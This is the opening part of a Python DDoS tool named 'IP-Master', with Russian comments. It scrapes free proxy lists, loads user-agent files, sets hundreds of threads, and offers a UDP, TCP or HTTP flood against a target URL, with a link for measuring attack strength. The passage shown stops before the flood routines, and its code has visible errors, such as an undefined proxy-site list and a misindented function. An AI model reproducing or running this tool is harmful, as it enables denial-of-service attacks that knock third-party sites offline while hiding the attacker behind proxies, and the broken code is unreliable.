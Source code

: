 # IP-Master
# -*- coding: utf-8 -*-
import urllib.request
import sys
from scapy.all import * 

import socket
import socks
import argparse
import threading
import random



author = "Жмышенко Валерий Альбертович 54 года"


ites = ["https://www.socks-proxy.net/","http://free-proxy-list.net/"] #Сайты откуда берем прокси
useragents = []
##Мощность DoS-а зависит от вашего интернет соеденения!!!
multiple = 100 # Умножение, значение можно менять
threads = 922 # Кол-во потоков, можно менять
choice1 = 0 #Для настройки типа флуда
choice2 = 0 #Для настройки типа флуда
choice3 = 0 #Для настройки типа флуда
port = 80 # Порт куда будут слаться заросы, можно менять


##### Добавляем в программу аргументы
parser = argparse.ArgumentParser()
parser.add_argument('-useragent', help = 'Путь до файла с user-агентами')
parser.add_argument('-proxylist', help = 'Путь до файла с proxy')
parser.add_argument('-url', help = 'Цель')
parser.add_argument('-getproxy', help = 'Получить прокси? 1 - да | 0 - нет')
args = parser.parse_args()
useragents_file = args.useragent
needproxy = args.getproxy
url = args.url
proxies_list = args.proxylist
if proxies_list == "": # Если прокси не указана закрыть программу
    print("Укажи прокси!")
    exit()
if useragents_file == "": # Если useragent-ы не указаны закрыть программу
    print("Укажи useragent-ов!")
    exit()
proxies = open(proxies_list).readlines() # Читаем прокси


###### Получение юзер агента с файла
handle = open(useragents_file)
for x in handle:
    useragents.append(x)
useragents = map(lambda s: s.strip(), useragents)
useragents = list(useragents)
######

def checkURL(): #Редактируем URL
    global url
    global url2
    global urlport


    try:
        if url[0]+url[1]+url[2]+url[3] == "www.":
            url = "http://" + url
        elif url[0]+url[1]+url[2]+url[3] == "http":
            pass
        else:
            url = "http://" + url
    except:
        print("Ошибка!")
        exit()

    try:
        url2 = url.replace("http://", "").replace("https://", "").split("/")[0].split(":")[0]
    except:
        url2 = url.replace("http://", "").replace("https://", "").split("/")[0]

    try:
        urlport = url.replace("http://", "").replace("https://", "").split("/")[0].split(":")[1]
    except:
        urlport = "80"




def getPROXY(urlproxy):
    try:
        req = urllib.request.Request(("{0}").format(str(urlproxy)))
        req.add_header("User-Agent", random.choice(useragents))
        sourcecode = urllib.request.urlopen(req)
        part = str(sourcecode.read())
        part = part.split("<tbody>")
        part = part[1].split("</tbody>")
        part = part[0].split("<tr><td>")
        proxies = ""
        for proxy in part:
            proxy = proxy.split("</td><td>") #Получаем прокси с сайта путем разделения тегов
            try:
                proxies=proxies + proxy[0] + ":" + proxy[1] + "\n"
            except:
                pass
        handle = open("proxy.txt","a") #Записуем полученные прокси в файл
        handle.write("")
        handle.write(proxies)
        handle.close()
        print ("Прокси скачаны успешно!")
    except:
        print ("Ошибка!")



if needproxy == "1": # Нужно ли качать прокси?
    #### Получение проксей
    for x in sites:
        getPROXY(x)
    ####


    def typeflood(): # Определяем тип флуда
    global choice1 #Для сайтов самый сильный - HTTP
    global choice2
    global choice3

    select = input("UDP или TCP или HTTP? => ")
    if select == "TCP":
        choice1 = "1" # Изначально программа была в интерактивном режиме
        choice2 = "y" # Но я убрал его, оставив лишь выбор метода флуда
        choice3 = "0" # Поэтому переменные называются choice))
    if select == "UDP":
        choice1 = "2"
        choice2 = "y" #Тестить мощь ваше DoS-а или DDoS-а можно здесь: https://www.vedbex.com/tools/dstat
        choice3 = "0"
    if select == "HTTP":
        choice1 = "0"
        choice2 = "y"
        choice3 = "0"

